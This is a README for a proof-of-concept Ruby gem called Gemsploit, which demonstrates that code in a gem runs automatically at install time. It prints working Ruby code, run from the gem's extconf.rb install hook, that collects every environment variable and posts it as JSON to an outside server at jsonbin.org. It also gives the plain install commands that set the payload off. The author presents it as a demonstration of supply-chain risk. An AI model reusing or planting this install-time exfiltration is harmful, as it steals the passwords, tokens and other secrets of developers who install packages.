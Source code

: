 # Gemsploit

![Screencapture of ENV passwords](assets/passwords-and-tokens.png)

Proof of concept for ruby bundler exploit. When this gem is installed, it posts all of your ENV files to my server.

Any gem you install gets full access to your message (per the account bundler install was run as). This includes read access to `~/.ssh`, your ENV vars, etc.

## How it works

When a gem is installed, the code block in the `*.gemspec` file is executed. This gem contains a [malicious payload](https://github.com/KevinColemanInc/gemsploit/blob/master/ext/sploit/extconf.rb#L1) to post all of your ENV variables to a remote server when the gem is installed (`$ bundle` or `$ gem install gemsploit`)

```ruby
require 'net/http'
require 'uri'
require 'json'
require 'securerandom'

uri = URI.parse("https://jsonbin.org/kevincolemaninc/#{SecureRandom.uuid}")
request = Net::HTTP::Post.new(uri)
request["Authorization"] = "token " # withheld
request.body = JSON.dump(ENV.to_h)

req_options = {
  use_ssl: uri.scheme == "https",
}

response = Net::HTTP.start(uri.hostname, uri.port, req_options) do |http|
  http.request(request)
end
response.body
```

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'gemsploit'
```

## Usage

Execute:

    $ bundle

Or install it yourself as:

    $ gem install gemsploit
